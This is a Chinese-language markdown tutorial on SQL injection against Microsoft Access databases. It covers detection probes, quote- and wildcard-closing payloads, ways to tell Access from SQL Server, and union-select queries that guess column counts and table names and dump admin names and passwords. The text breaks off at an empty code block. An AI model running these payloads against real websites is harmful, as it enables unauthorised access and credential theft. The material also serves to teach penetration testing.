 # Access数据库注入

## Access数据库
Access数据库为一个文件，可以使用Microsoft软件打开，不同于mysql，sqlsrver，不使用服务，调用文件就可以访问。一般用于windows数据库


## Access注入挖掘
### （1）判断是否有注入
* 在页面url中含有？id=数字，后接上一下语句判断
```
and 1=1 //页面返回正常
and 1=2 //页面返回错误
```
* 当有waf拦截时，/ 页面返回错误，-0 页面返回正常
* 满足以上注入语句，可以判断含有sql注入
### （2）判断是否有字符注入
* 一般会用单引号引起，拿去匹配数据库,要使用单引号闭合来进行注入，输入一个引号看是否会报错
* 逻辑型（字符型注入）：
```sql
' and '1'='1/' and '1'='
```
### （3）判断是否是搜索型注入
* 逻辑型（搜索型注入）：
```sql
%' and 1=1 and '%'='/%' and 1=2 and '%'='
```
### （4）判断数据库类型
* **方法1**：
```sql
and (select count(*) from sysobjects)>0  ，and (select count(*) from msysobjects)>0  

sysobjects 正常，msysobjects不正常，则为sql表
sysobjects和msysobjects都不正常，或者sysobjects不正常，msysobjects正常，则为access表
```
* **方法2**：
  在地址栏上显示的连接所带的参数后面加些特殊符号，看它的报错信息，如 ` http://www.abc.com?id=1’`  则回返回错误，如果是Microsoft JET Database Engine错误’80040e14’的话，则说明网站所用的数据库是Access数据库。
* **方法3**：
  如果目标数据库同时支持len函数和chr函数，且不支持length和char函数，则很可能是Access数据库。在不返回报错信息的情况下，这种方式是我最常用的



## Access union联合查询
### （1）猜列数
* 首先使用`order by ...`语句测试是否有union联合查询漏洞，即输入`order by 1 `网站返回正常
* 使用`order by` 语句猜出该页面数据表中有多少列，即`order by 1，order by 2........`直到`order by n`时，页面出现错误，则表有n-1列
### （2）猜表名
* 使用`union select 1，2，3......，n-1 from 表名`（一般使用字典，爆破出管理员数据表名），当页面显示，则存在该表名**输出页面中会有数字输出，表示该列数据类型为字符串**
* 在提交注入查询语句后，如果获得的HTML返回和正常页面一样，则表存在。
  `' AND (SELECT TOP 1 1 FROM TableNameToBruteforce[i])`
  `AND exists(select * from tablename)`
### （3）猜列名
* 普通查询语句
```sql
union select name，2，3，.....，password from admin（输出admin表中的name和password）
```
* 如果站点SQL查询语句为 
```sql
```